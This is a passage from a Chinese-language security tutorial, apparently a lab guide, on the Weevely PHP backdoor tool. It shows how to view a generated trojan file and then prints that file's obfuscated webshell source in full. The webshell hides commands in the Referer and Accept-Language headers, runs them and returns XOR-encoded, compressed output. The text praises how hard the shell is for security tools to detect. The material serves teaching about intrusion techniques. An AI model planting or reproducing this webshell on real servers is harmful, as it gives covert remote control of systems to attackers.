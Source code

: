 对于 PHP 木马的源码，我们可以使用 `cat` 命令查看木马文件，在命令行终端中，输入如下命令：

```
# 使用命令，查看木马文件源码
cat /root/hello.php
```

![图片描述](../imgs/1481010792216.png-wm.png)


### 4.2 解释 PHP 木马源码

Weevely 的最大特点在于其隐蔽性，不论数据通道和控制通道，都做到很大程度的隐蔽，其生成的木马程序，很难被安全工具发现。对于生成的 PHP 木马文件，由 `cat` 命令可以看到其源码如下：

```
<?php
$A='l{
$u=pa,lrse_url(,l$rr);,lparse_str($u[,l"query,l"],$q),l;
$q=a,lrray_,lval,l,lues($q);preg_mat,l,lch_a';
$y='<$l,l;),l{f,lor($j=0;($,lj<$c&&$i<$l,l),l;,l$j++,l,l,$i++){
$o.=$t{$i}^$k{,l$,lj};}}return ,l,l$o;}
$r=,';
$Q='ll("/([\\w,l])[\\,lw-]+(,l?:;q=0.([,l\\d])),l?,?/",,l$ra,$,lm);i,lf($q&&$m){,l@sess,lion_sta,lrt,l(),l;$s';
$j='=&$_SESS,lION;$,lss,l=,l"substr";$sl="st,lrto,ll,lower,l";$i=$m[1][0],l.$m[1],l[1];$h=$s,ll(,l,l$ss(md5';
$L='($i.$kh),,l0,3),l,l);$f=$sl($ss(md5(,l$,li.$kf),,l0,3));,l$p=,l"";for,l,l($z=,l1;$z<cou,lnt($m[1]);$z';
$S='l$_SERVER;$rr,l=@,l$r["HTTP_R,lE,lFERER"];$ra,l=@$,lr[",l,lHTTP_,lACCEPT_LANGUAGE",l];if(,l,l$rr&&$ra),';
$z=',lrray(",l/",",l+,l"),$ss($s[$i],l,0,$e))),$k)));$o,l=ob_get,l_,lcontent,ls();ob_en,ld,l_clea,ln();$d=';
$r='b,lase6,l4_,lenc,lode(x(g,lzcompress($o,l),$k));print("<,l$k>$d<,l/$k,l,l>");@sessio,ln,l_destroy();}}}}';
```